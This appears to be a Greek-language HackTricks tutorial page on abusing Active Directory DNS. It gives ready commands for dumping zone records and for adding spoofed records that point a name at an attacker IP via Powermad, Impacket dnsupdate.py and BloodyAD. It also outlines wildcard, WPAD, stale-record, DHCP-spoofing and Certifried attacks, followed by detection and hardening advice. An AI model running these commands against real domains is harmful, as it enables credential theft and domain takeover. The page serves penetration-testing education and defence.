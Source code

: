 # AD DNS Records

{{#include ../../banners/hacktricks-training.md}}

Από προεπιλογή, **οποιοσδήποτε χρήστης** στο Active Directory μπορεί να **καταγράψει όλα τα DNS records** στις ζώνες DNS του Domain ή του Forest, παρόμοια με μια μεταφορά ζώνης (οι χρήστες μπορούν να καταγράψουν τα παιδικά αντικείμενα μιας ζώνης DNS σε ένα περιβάλλον AD).

Το εργαλείο [**adidnsdump**](https://github.com/dirkjanm/adidnsdump) επιτρέπει την **καταγραφή** και **εξαγωγή** **όλων των DNS records** στη ζώνη για σκοπούς αναγνώρισης εσωτερικών δικτύων.
```bash
git clone https://github.com/dirkjanm/adidnsdump
cd adidnsdump
pip install .

# Enumerate the default zone and resolve the "hidden" records
adidnsdump -u domain_name\\username ldap://10.10.10.10 -r

# Quickly list every zone (DomainDnsZones, ForestDnsZones, legacy zones,…)
adidnsdump -u domain_name\\username ldap://10.10.10.10 --print-zones

# Dump a specific zone (e.g. ForestDnsZones)
adidnsdump -u domain_name\\username ldap://10.10.10.10 --zone _msdcs.domain.local -r

cat records.csv
```
>  adidnsdump v1.4.0 (Απρίλιος 2025) προσθέτει JSON/Greppable (`--json`) έξοδο, πολυνηματική επίλυση DNS και υποστήριξη για TLS 1.2/1.3 κατά την σύνδεση σε LDAPS

Για περισσότερες πληροφορίες διαβάστε [https://dirkjanm.io/getting-in-the-zone-dumping-active-directory-dns-with-adidnsdump/](https://dirkjanm.io/getting-in-the-zone-dumping-active-directory-dns-with-adidnsdump/)

---

## Δημιουργία / Τροποποίηση εγγραφών (ADIDNS spoofing)

Επειδή η ομάδα **Authenticated Users** έχει **Create Child** στο DACL της ζώνης από προεπιλογή, οποιοσδήποτε λογαριασμός τομέα (ή λογαριασμός υπολογιστή) μπορεί να καταχωρήσει επιπλέον εγγραφές. Αυτό μπορεί να χρησιμοποιηθεί για hijacking κυκλοφορίας, NTLM relay coercion ή ακόμη και πλήρη συμβιβασμό τομέα.

### PowerMad / Invoke-DNSUpdate (PowerShell)
```powershell
Import-Module .\Powermad.ps1

# Add A record evil.domain.local → attacker IP
Invoke-DNSUpdate -DNSType A -DNSName evil -DNSData 10.10.14.37 -Verbose

# Delete it when done
Invoke-DNSUpdate -DNSType A -DNSName evil -DNSData 10.10.14.37 -Delete -Verbose
```
### Impacket – dnsupdate.py  (Python)
```bash
# add/replace an A record via secure dynamic-update
python3 dnsupdate.py -u 'DOMAIN/user:Passw0rd!' -dc-ip 10.10.10.10 -action add -record evil.domain.local -type A -data 10.10.14.37
```
*(dnsupdate.py αποστέλλεται με το Impacket ≥0.12.0)*

### BloodyAD
```bash
bloodyAD -u DOMAIN\\user -p 'Passw0rd!' --host 10.10.10.10 dns add A evil 10.10.14.37
```
---

## Κοινές επιθέσεις

1. **Wildcard record** – `*.<zone>` μετατρέπει τον AD DNS server σε έναν πανεπιχειρησιακό απαντητή παρόμοιο με την παραποίηση LLMNR/NBNS. Μπορεί να χρησιμοποιηθεί για την καταγραφή NTLM hashes ή για την αναμετάδοση τους σε LDAP/SMB.  (Απαιτεί να είναι απενεργοποιημένο το WINS-lookup.)
2. **WPAD hijack** – προσθέστε `wpad` (ή μια **NS** εγγραφή που δείχνει σε έναν επιτιθέμενο για να παρακάμψει τη Λίστα Παγκόσμιας Ερώτησης-Φραγής) και διαφανώς προξενήστε εξερχόμενα HTTP αιτήματα για να συλλέξετε διαπιστευτήρια.  Η Microsoft διόρθωσε τις παρακάμψεις wildcard/ DNAME (CVE-2018-8320) αλλά οι **NS-εγγραφές εξακολουθούν να λειτουργούν**.
3. **Stale entry takeover** – διεκδικήστε τη διεύθυνση IP που ανήκε προηγουμένως σε έναν υπολογιστή και η σχετική DNS εγγραφή θα συνεχίσει να επιλύεται, επιτρέποντας επιθέσεις περιορισμένης εξουσιοδότησης ή Shadow-Credentials χωρίς να αγγίξετε καθόλου το DNS.
4. **DHCP → DNS spoofing** – σε μια προεπιλεγμένη εγκατάσταση Windows DHCP+DNS, ένας μη αυθεντικοποιημένος επιτιθέμενος στο ίδιο υποδίκτυο μπορεί να αντικαταστήσει οποιαδήποτε υπάρχουσα A εγγραφή (συμπεριλαμβανομένων των Domain Controllers) στέλνοντας πλαστές DHCP αιτήσεις που ενεργοποιούν δυναμικές ενημερώσεις DNS (Akamai “DDSpoof”, 2023).  Αυτό δίνει μηχανή-στη-μέση πάνω από Kerberos/LDAP και μπορεί να οδηγήσει σε πλήρη κατάληψη τομέα.
5. **Certifried (CVE-2022-26923)** – αλλάξτε το `dNSHostName` ενός λογαριασμού μηχανής που ελέγχετε, καταχωρίστε μια αντίστοιχη A εγγραφή, στη συνέχεια ζητήστε ένα πιστοποιητικό για αυτό το όνομα για να προσποιηθείτε τον DC. Εργαλεία όπως το **Certipy** ή το **BloodyAD** αυτοματοποιούν πλήρως τη διαδικασία.

---

## Ανίχνευση & σκληραγώγηση

* Αρνηθείτε στους **Authenticated Users** το δικαίωμα *Create all child objects* σε ευαίσθητες ζώνες και αναθέστε δυναμικές ενημερώσεις σε έναν ειδικό λογαριασμό που χρησιμοποιείται από το DHCP.
* Εάν απαιτούνται δυναμικές ενημερώσεις, ρυθμίστε τη ζώνη σε **Secure-only** και ενεργοποιήστε την **Name Protection** στο DHCP ώστε μόνο το αντικείμενο υπολογιστή του ιδιοκτήτη να μπορεί να αντικαταστήσει τη δική του εγγραφή.
* Παρακολουθήστε τα IDs γεγονότων του DNS Server 257/252 (δυναμική ενημέρωση), 770 (μεταφορά ζώνης) και τις εγγραφές LDAP στο `CN=MicrosoftDNS,DC=DomainDnsZones`.
* Εμποδίστε επικίνδυνα ονόματα (`wpad`, `isatap`, `*`) με μια σκόπιμα καλοήθη εγγραφή ή μέσω της Παγκόσμιας Λίστας Φραγής Ερωτήσεων.
* Διατηρήστε τους DNS servers ενημερωμένους – π.χ., τα σφάλματα RCE CVE-2024-26224 και CVE-2024-26231 έφτασαν **CVSS 9.8** και είναι εκμεταλλεύσιμα απομακρυσμένα κατά των Domain Controllers.

## Αναφορές

* Kevin Robertson – “ADIDNS Revisited – WPAD, GQBL and More”  (2018, εξακολουθεί να είναι η de-facto αναφορά για επιθέσεις wildcard/WPAD)
* Akamai – “Spoofing DNS Records by Abusing DHCP DNS Dynamic Updates” (Δεκ 2023)
{{#include ../../banners/hacktricks-training.md}}
